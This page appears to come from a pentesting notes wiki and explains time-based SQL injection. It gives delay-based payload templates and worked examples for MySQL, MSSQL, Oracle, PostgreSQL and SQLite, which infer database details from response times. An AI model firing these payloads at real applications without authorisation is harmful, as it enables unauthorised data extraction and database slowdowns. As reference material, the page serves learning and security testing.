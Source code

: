 # Time Based

## Theory

Time-based SQL injection is a technique that relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to force the database to wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1'; SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')-- -
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Time Based  
1'; SELECT IF((SELECT LENGTH(database()))=1,SLEEP(10),'a')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1' IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'-- 
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Time Based  
1' IF ((SELECT LEN(DB_NAME()))=1) WAITFOR DELAY '0:0:10'-- 
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' || (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual) ||--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Time Based  
1' || (SELECT CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual) ||--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1'; SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Time Based  
1'; SELECT CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Time Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```
{% endtab %}
{% endtabs %}
